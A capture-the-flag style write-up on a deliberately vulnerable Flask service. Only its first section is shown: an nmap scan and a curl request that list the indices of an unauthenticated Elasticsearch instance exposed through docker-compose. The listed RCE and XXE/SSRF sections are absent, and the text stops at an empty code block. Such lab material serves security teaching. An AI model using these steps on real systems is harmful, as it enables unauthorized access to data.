 ## Writeup

The project is a web service based on [Flask](https://en.wikipedia.org/wiki/Flask_(web_framework)) framework
with several security issues.

In this article IP 192.168.2.5 using as example!

### Table of contents

1. [Exposing the elasticsearch service](#vulnerable-1-exposing-the-elasticsearch-service)
2. [RCE Debug Mode](#vulnerable-2-rce-debug-mode)
3. [XXE + SSRF](#vulnerable-3-xxe--ssrf)

### Vulnerable 1. Exposing the elasticsearch service

#### Summary

The first vulnerability is pretty easy. We can see section 'elasticsearch' in docker-compose.yml:
```yaml
...
elasticsearch:
    container_name: custom-es
    image: elasticsearch:8.7.1
    volumes:
      - esdata:/usr/share/elasticsearch/data
    environment:
      - bootstrap.memory_lock=true
      - ES_JAVA_OPTS=-Xms1024m -Xmx1024m
      - xpack.security.enabled=false
      - discovery.type=single-node
    deploy:
      resources:
        limits:
          cpus: '0.50'
          memory: 2048M
    ports:
      - "9200:9200"
...
```
Exposing port 9200/tcp can be a security risk. Especially if the Elasticsearch is used without any authorization mechanisms.
We can check availability of service using [Nmap](https://nmap.org/):
```bash
> nmap -p 9200 192.168.2.5

Nmap scan report for 192.168.2.5
Host is up (0.00088s latency).

PORT     STATE SERVICE
9200/tcp open  wap-wsp
```
Let's get list of indexes:
```bash
> curl 'http://192.168.2.5:9200/_cat/indices?v'

health status index uuid                   pri rep docs.count docs.deleted store.size pri.store.size
yellow open   flags vO30NNfkSzG9Vae5ApeMJA   1   1       3818            0    785.9kb        785.9kb
```
We have the index called 'flags'. Now we can enumerate flags using 
[Search API](https://www.elastic.co/guide/en/elasticsearch/reference/current/search-search.html) method.
```bash
```